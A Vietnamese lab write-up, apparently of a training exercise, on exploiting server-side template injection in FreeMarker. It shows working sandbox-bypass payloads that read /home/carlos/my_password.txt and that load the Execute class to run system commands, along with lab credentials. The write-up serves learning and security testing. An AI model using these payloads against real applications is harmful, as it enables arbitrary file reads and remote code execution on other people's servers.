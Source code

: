 Trong lab này dùng Freemarker template engine. Và nó được đặt trong môi trường sandbox và mình phải lấy file `my_password.txt` tại `/home/Carlos`

Mình cũng được cung cấp 1 account là `content-manager:C0nt3ntM4n4g3r`

Sau khi login thì mình trong phần xem product thì có chức năng edit template. 

![image](https://hackmd.io/_uploads/HJdBky7Fee.png)

Mình thử inject `${7*7}` 

![image](https://hackmd.io/_uploads/HJyu1JXtxe.png)

Mình thử inject vào bằng payload RCE là: `<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}`

![image](https://hackmd.io/_uploads/HJqCkJmFxl.png)

Nó trả về là `freemarker.template.utility.Execute is not allowed....` ➡️ Vì ứng dụng chỉ cho phép edit trong môi trường sandbox, có thể là **Sandbox is based on method blocklist**

Sau khi đọc về cách bypass sandbox [Blackhat](https://media.defcon.org/DEF%20CON%2028/DEF%20CON%20Safe%20Mode%20presentations/DEF%20CON%20Safe%20Mode%20-%20Alvaro%20Mun%CC%83oz%20and%20Oleksandr%20Mirosh%20-%20Room%20For%20Escape%20Scribbling%20Outside%20The%20Lines%20Of%20Template%20Security.pdf)

Từ đây có hai cách sau dựa vào object `product` sẵn có: 

**Cách 1**: Đọc file bất kỳ dưới dạng decimal

`${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}`

![image](https://hackmd.io/_uploads/Hyb3e1mKxx.png)

Từ đây, mình có thể chuyển từ decimal sang text. 

![image](https://hackmd.io/_uploads/BJLb-ymKel.png)

Cách 2: RCE bằng payload 

```
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("<SYSTEM CMD>")}
```

Từ đó, thay lại thành `cat /home/carlos/my_password.txt`

![image](https://hackmd.io/_uploads/H1x8by7Fxe.png)

### Cấu trúc 1 custom exploit dùng developer-supplied objects 

- Một số template engine được thiết kế chạy trong môi trường an toàn, hạn chế để bị RCE. 
- Tuy nhiên, một số object do dev tạo ra và expose vào trong template thường kém an toàn hơn, dễ bị khai thác.
- Template built-in thường có tài liệu chi tiết => dễ nghiên cứu 
- Nhưng site-specific object (object tùy biến cho web đó) ko có tài liệu ➡️ phải tự phân tích hành vi website, thử nghiệm để tìm attack surface và viết exploit riêng. 
